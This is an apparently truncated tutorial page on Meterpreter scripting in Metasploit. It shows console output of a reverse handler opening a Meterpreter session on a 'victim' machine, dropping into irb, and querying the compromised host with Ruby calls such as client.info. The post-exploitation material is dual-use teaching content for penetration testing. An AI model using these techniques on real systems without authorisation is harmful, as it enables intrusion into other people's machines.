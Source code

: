 # Meterpreter Scripting

From the official [wiki][1], The Meterpreter is an advanced payload that has been part of Metasploit since 2004. Originally written by Matt "skape" Miller, dozens of contributors have provided additional code, and the payload continues to be frequently updated as part of Metasploit development.

Meterpreter is a payload framework that provides APIs to interact with by writing scripts and plugins that increase its capabilities. You can find meterpreter scripts in `metasploit-framework/scripts/meterpreter` those scripts that you use in post exploitation using **run** (eg. getuid, getsystem, migrate, scraper, etc). Meterpreter source code is located in `metasploit-framework/lib/rex/post/meterpreter`.

Actually, you can't imagine the power of Meterpreter until you read its [wishlist and features][2] not just use it.


To get started, let's to get a Meterpreter shell on a victim machine to start practicing it inline then we can write some scripts 

Once you get the meterpreter shell type `irb` to be dropped into ruby's irb. Most of required modules will be loaded already. Then type `require 'irb/completion'` to support auto-completion for the irb console, just like the follows

```
msf exploit(handler) > run

[*] Started reverse handler on 192.168.0.18:4444 
[*] Starting the payload handler...
[*] Sending stage (957486 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.18:33603) at 2015-11-22 06:33:00 +0300

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>> require 'irb/completion'
=> true
```
As you can see you've been dropped to the irb with an instance variable called `client` of the running meterpreter.

Try this as a start 
```ruby
print_good("Rubyfu!")
```
- To list all associated methods with `client` instance

This will return an array. 

```ruby
puts client.methods
```
Let's to check some of the interesting methods there.

- Victim's computer information 

```ruby
client.info
```

Returns
```
=> "win7-64-victim\\Workshop @ WIN7-64-VICTIM"

```

- 
































<br><br><br>
---
[1]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter
[2]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Wishlist